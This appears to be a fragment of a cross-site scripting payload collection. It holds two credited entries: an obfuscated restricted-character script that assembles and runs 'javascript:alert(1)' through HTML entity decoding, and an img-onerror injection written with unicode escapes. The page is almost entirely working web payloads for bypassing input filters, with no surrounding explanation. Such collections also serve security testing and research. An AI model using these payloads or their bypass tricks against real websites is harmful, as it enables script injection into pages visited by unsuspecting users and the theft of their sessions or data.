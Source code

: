 
[physuru](https://physuru.dev/blog/restricted_character_xss/)

```
elem=new Option
elem.classList.valueOf=String.prototype.charAt

elem.innerText=elem.outerHTML
elem.className=elem.innerHTML
amp=Object.__proto__.name+elem.classList

htag=new Text
elem.className=htag.nodeName
htag=Object.__proto__.name+elem.classList

elem.innerHTML=amp+htag+97
a=elem.innerText
elem.innerHTML=amp+htag+99
c=elem.innerText
elem.innerHTML=amp+htag+105
i=elem.innerText
elem.innerHTML=amp+htag+106
j=elem.innerText
elem.innerHTML=amp+htag+112
p=elem.innerText
elem.innerHTML=amp+htag+114
r=elem.innerText
elem.innerHTML=amp+htag+115
s=elem.innerText
elem.innerHTML=amp+htag+116
t=elem.innerText
elem.innerHTML=amp+htag+118
v=elem.innerText

elem.innerHTML=amp+htag+58
colon=elem.innerText

elem.innerHTML=amp+htag+40
lpar=elem.innerText
elem.innerHTML=amp+htag+41
rpar=elem.innerText

location=j+a+v+a+s+c+r+i+p+t+colon+alert.name+lpar+1+rpar
```
---
[Renwa](https://twitter.com/RenwaX23/status/1126999364763832325)

```
document.body.innerHTML="\u003cimg src=x onerror=alert\u002823\u0029\u003e";
```
    
---
[Renwa](https://twitter.com/RenwaX23)
